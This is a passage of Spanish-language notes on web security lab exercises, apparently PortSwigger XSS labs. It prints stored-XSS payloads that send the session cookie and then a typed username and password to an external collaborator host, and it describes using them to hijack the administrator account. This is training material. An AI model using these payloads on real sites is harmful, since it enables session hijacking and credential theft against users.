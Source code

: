 ```html
<script>
fetch('https://ibx7ydc3qzqb2nzbzctshnnoyf45su.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

![[Pasted image 20230224233209.png]]

esperamos un poco y damos **pull now** en el **burp colaborator**:

![[Pasted image 20230224233254.png]]

obtuvimos la cookie de sesion y podemos acceder a la cuenta de administrador reemplazando la cookie en la pagina.

### (exploiting) Exploiting cross-site scripting to capture passwords

la pagina es vulnerable a XSS almacenado en comentarios de post, el usuario administrador visita la pagina despues de cada nuevo post.

podemos inyectar codigo HTML y JS para realizar un defacement a la pagina e incrustar un formulario que pida usuario y contraseña, mediante un evento en el input de contraseña **onchange**, cuando se introduzca la contraseña hacemos que se realice una peticion a nuestro **burp collaborator**:

el payload seria:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://qnhw1v9llsmgmxshyqkmp545pwvojd.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

cargamos el comentario y en poco rato recibimos informacion:

![[Pasted image 20230224234048.png]]

con las credenciales iniciamos sesion como el usuario administrator.

### (exploiting) Exploiting XSS to perform CSRF

la pagina es vulnerable a XSS almacenado en comentarios de post, el usuario administrador visita la pagina despues de cada nuevo post.

ademas la pagina tiene una funcionalidad de cambio de email que es vulnerable a CSRF.

Vamos a combinar estos 2 ataques.
